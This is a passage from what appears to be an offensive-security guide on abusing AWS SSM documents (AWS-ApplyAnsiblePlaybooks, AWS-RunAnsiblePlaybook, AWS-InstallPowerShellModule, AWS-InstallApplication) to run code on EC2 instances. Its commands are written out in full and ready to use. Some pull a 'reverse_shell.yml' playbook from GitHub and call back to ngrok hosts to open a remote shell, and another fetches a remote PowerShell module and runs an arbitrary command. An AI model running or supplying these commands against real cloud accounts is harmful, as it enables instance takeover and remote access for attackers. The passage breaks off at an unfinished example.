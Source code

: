 Example usage:

```bash
aws ssm send-command --instance-id i-0ecad5485f77f18f4 \
    --document-name "AWS-ApplyAnsiblePlaybooks" \
    --parameters \
'{"SourceType":["GitHub"],"SourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\",\"path\":\"AWS-ApplyAnsiblePlaybooks/linux/\", \"getOptions\":\"branch:main\"}"],"InstallDependencies":["True"],"PlaybookFile":["reverse_shell.yml"],"ExtraVariables":["host=6.tcp.eu.ngrok.io port=13012"]}'
```

Because it is a GitHub repository, we have to specify more parameters than an HTTP server. Besides that, the parameters of interest are:

- InstallDependencies
    - Set to true for installing Ansible on the system
- ExtraVariables
    - Here we specify the host and port where to receive the reverse shell

##### AWS-RunAnsiblePlaybook

It does the same thing as AWS-ApplyAnsiblePlaybook with some differences:

- Can download only from S3 Buckets and HTTP(S) servers
- It requires Ansible to be already installed on the system
- The same Ansible Playbook can be used, but the command to send the command is different

```bash
aws ssm send-command --document-name "AWS-RunAnsiblePlaybook" \
    --instance-id i-0ecad5485f77f18f4 \
    --parameters \
'{"playbookurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunAnsiblePlaybook/linux/reverse_shell.yml"],"extravars":["host=7.tcp.eu.ngrok.io port=14355"]}'
```

##### AWS-InstallPowerShellModule

It downloads from remote locations PS modules and installs them. It only supports HTTP(S) servers.

The way the document is build, it allows you to execute an arbitrary command after the module was installed. Because of this, the PS module doesn’t need to be malicious.

Example usage:

```bash
aws ssm send-command --document-name "AWS-InstallPowerShellModule" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"source":["https://your-server.com/module.ps1"], "commands":["whoami"]}'
```

##### AWS-InstallApplication

It downloads from remote locations MSI files and installs them. It only supports HTTP(S) servers. You can pass arguments to the MSI installation if want to. You need to be aware of AV at this point if the file is malicious.

Example usage:
